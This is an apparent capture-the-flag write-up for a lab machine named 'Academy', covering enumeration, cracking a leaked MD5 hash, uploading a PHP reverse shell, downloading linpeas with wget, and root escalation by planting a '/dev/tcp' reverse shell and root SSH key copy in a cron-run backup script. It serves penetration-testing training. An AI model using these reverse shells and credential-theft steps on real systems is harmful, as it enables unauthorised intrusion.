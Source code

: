 # Academy
> 12.10.2023
---
## Enumeration

**Nmap scan**
```bash
nmap -sC -sV 10.10.1.153
```

```
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.1.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:2B:D9:FB (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The FTP server has anonymous login on! It contains an note:

```note.txt
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
```

We have gotten the following credentials:
```
StudentRegno: 10201321
studentPhoto: ""
password: cd73502828457d15655bbd7a63fb0bc8
studentName: Rum Ham
pincode: 777777
session: ""
department: ""
semester: ""
cgpa: 7.60
creationdate: 2021-05-29 14:36:56
updationDate: ""
```

The most important credentials are the *StudentRegno* and the *password* hash.

The hash can be cracked by using [CrackStation](https://crackstation.net/): "student" "MD5"

## Webserver

Visiting the webserver, I discovered the Apache standard site. Further directory enumeration can be done with "feroxbuster":

```bash
feroxbuster --url http://10.10.1.153 -x php,html,txt
```

```
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      368l      933w    10701c http://10.10.1.153/index.html
301      GET        9l       28w      315c http://10.10.1.153/phpmyadmin => http://10.10.1.153/phpmyadmin/
200      GET       24l      126w    10356c http://10.10.1.153/icons/openlogo-75.png
200      GET      368l      933w    10701c http://10.10.1.153/
301      GET        9l       28w      312c http://10.10.1.153/academy => http://10.10.1.153/academy/
...
```

The directory: "academy" and "phpmyadmin" can be found.

## Academy

![[Capstone Academy01.png]]

We enter the credentials we have gotten earlier, to login into the account. Now go to the "My Profile" section, we find an unprotected upload section:

![[Capstone Academy02.png]]

To exploit this, start an netcat listener:

```bash
nc -lnvp 4200
```

and upload an reverse php shell with the host IP and port "4200":
[php-reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

If everything goes right, we gain an shell as www-data.

## Lateral movement

Lets upload ["linpeas.sh"](https://github.com/carlospolop/PEASS-ng/releases/download/20231112-0a42c550/linpeas.sh) to enumerate the system:

```bash
# Attacker
python3 -m http.server 6969

# Victim
cd /tmp
wget http://10.10.1.100:6969/linpeas.sh
bash linpeas.sh
```

After analyzing the output, we see an leaked password in a php file:

```
╔══════════╣ Searching passwords in config PHP files
$cfg['Servers'][$i]['AllowNoPassword'] = false;                                                                                                               
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['ShowChgPassword'] = true;
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_password = "My_V3ryS3cur3_P4ss";
```

Since the user "grimmie" exists, we try to ssh into the user using the following command:

```bash
ssh grimmie@10.10.1.153
password: My_V3ryS3cur3_P4ss
```

We successfully gotten the grimmie user.

## Privilege escalation

In the grimmie's home directory, we find a file called backup.sh
By looking at the "/etc/crontab" file, we see that this file will be executed by root every few seconds. So add a reverse shell in the second line of the backup.sh file and start an listener on another terminal:

```bash
nc -lnvp 4201
```

**backup.sh**
```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.1.100/4201 0>&1

cat /root/.ssh/id_rsa >> /tmp/id_rsa

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
```

with that, we gain the root privilege!

## Root-Flag

```
cat flag.txt 

Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.
```